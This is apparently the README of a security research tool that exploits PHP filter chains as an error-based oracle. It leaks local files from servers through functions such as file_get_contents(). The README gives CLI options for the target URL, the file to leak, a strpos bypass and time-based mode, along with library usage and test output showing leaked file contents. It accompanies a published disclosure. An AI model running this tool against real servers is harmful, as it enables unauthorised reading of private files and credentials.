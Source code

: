 # PHP filter chains: file read from error-based oracle

A CLI to exploit parameters affected by the file read caused by the the error-based oracle of PHP filter chains. It can be used to leak the content of a local file when passed to vulnerable functions, such as `file()`, `hash_file()`, `file_get_contents()` or `copy()`, even when the server does not return the file content!

As long as an action is performed on a file content and the full URI is controlled, the function can be affected by the `php://filter` wrapper, and therefore exploited by this tool. More information in our blogpost: https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle

The trick was first discovered and disclosed as a challenge by @hash_kitten during the DownUnderCTF 2022.

## Usage
By default, the tool requires the parameters `target` (targeted URL), `file` (the local file to leak) and `parameter` (parameter where you want to inject).
Several other options can be defined and are detailed here:

```bash
$ python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER [--data DATA] [--headers HEADERS] [--verb VERB] [--proxy PROXY] [--in_chain IN_CHAIN]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY] [--json JSON] [--match MATCH] [--offset OFFSET] [--log LOG]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"


options:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --in_chain IN_CHAIN   Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
  --json JSON           Send data as JSON (--json=1)
  --match MATCH         Match a pattern in the response as the oracle (--match='Allowed memory size of')
  --offset OFFSET       Offset from which a char should be leaked (--offset=100)
  --log LOG             Path to log file (--log=/tmp/output.log)
```

## Usage as a library

If you want to use the logic from the library in a python script, you can import `Bruteforcer` and implement a subclass.

```python
from php_filter_chains_oracle_exploit.filters_chain_oracle.core.bruteforcer import Bruteforcer

class MyBruteforcer(Bruteforcer):
    ...
```

## Improvements

Other features may be added to the tool, feel free to contribute if you have ideas!

### Run unit tests

Before making a Pull Request, please make sure that all tests are still working. To do so, you need to have `php` and `python3` installed.

Once the setup is ready, run the command `python3 -m unittest` from the folder `filters_chain_oracle` :

```bash
$ python3 -m unittest
.[*] The following URL is targeted : http://127.0.0.1:42424/tmpnkrg4kv8.php
[*] The following local file is leaked : /tmp/tmpiabnwasl
[*] Running POST requests
[+] File /tmp/tmpiabnwasl leak is finished!
YWJjZGVmZ2hpamtsbW5v
b'abcdefghijklmno'
[*] Info logged in : /tmp/tmp2oycnj_s
..
----------------------------------------------------------------------
Ran 3 tests in 26.823s

OK
```
